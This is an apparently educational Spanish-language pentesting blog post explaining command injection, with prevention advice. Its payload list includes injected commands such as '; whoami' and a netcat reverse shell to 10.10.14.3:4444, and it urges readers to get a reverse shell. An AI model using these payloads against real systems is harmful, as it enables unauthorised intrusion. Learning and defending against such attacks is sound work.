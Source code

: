 ```yaml
---
layout: post
title: "Command Injection: Cuando un parámetro te da acceso a todo el sistema"
author: "l1ttl3bugc4t"
date: "2025-06-09"
tags: [Command Injection, Pentesting, Seguridad Web, Red Team, Shell]
categories: [cuaderno, Red Team & Chill, CyberChallenges]
---
```


**Command Injection** es como meterle comandos al sistema desde un input web y lograr que los ejecute como si fueras el admin 😼💻  
Una vulnerabilidad clásica, poderosa… y a veces, fatal para el servidor.

---

## 🧠 ¿Qué es Command Injection?

Es una vulnerabilidad que ocurre cuando una aplicación **concatena entradas del usuario en comandos del sistema operativo** sin validación adecuada.  
El atacante puede inyectar comandos arbitrarios que el servidor ejecutará.

---

## 💣 Ejemplo básico

Supón que tienes un formulario que hace ping a una IP:

```
http://victima.com/ping?ip=127.0.0.1
```

Y el backend ejecuta:

```bash
ping 127.0.0.1
```

Pero si el input no está validado…

```
http://victima.com/ping?ip=127.0.0.1; whoami
```

El servidor ejecutará:

```bash
ping 127.0.0.1; whoami
```

¡Y listo! El atacante ve el usuario del sistema.

---

## 🧪 Payloads comunes

```bash
127.0.0.1; whoami
8.8.8.8 && uname -a
localhost | id
; nc -e /bin/sh 10.10.14.3 4444
```

---

## 🧵 Caracteres de inyección

- `;` → separador de comandos
- `&&` → ejecuta si el anterior tuvo éxito
- `||` → ejecuta si el anterior falló
- `|` → redirige la salida al siguiente comando
- `` `comando` `` → ejecuta el contenido
- `$()` → evalúa el contenido dentro

---

## 🛠️ Herramientas útiles

- `Burp Suite` para interceptar y modificar parámetros
- `Commix` → automatiza inyecciones de comandos
- `curl` o `wget` para comprobar respuestas
- `netcat` y `socat` para obtener shells

---

## 🛡️ Cómo prevenirlo

- Nunca concatenes datos del usuario en comandos
- Usa funciones seguras como `subprocess.run()` en Python con `shell=False`
- Valida la entrada (IP, nombres, rutas)
- Usa listas blancas
- Escapa y sanitiza correctamente

---

## 📡 En pentesting

- Identifica funciones como ping, traceroute, nslookup
- Revisa si hay eco en la respuesta (reflejo del comando)
- Usa `time delay` para detectar cuando no hay salida directa
- Si logras ejecutar algo… ¡ve por una reverse shell!

---

## ✨ Conclusión

**Command Injection** no es solo una vulnerabilidad… es una puerta abierta al sistema si no se maneja bien.  
Una comilla mal colocada puede ser el inicio del fin 😈💥

> _"Dame una IP y te abriré una shell."_ — **l1ttl3bugc4t**

---
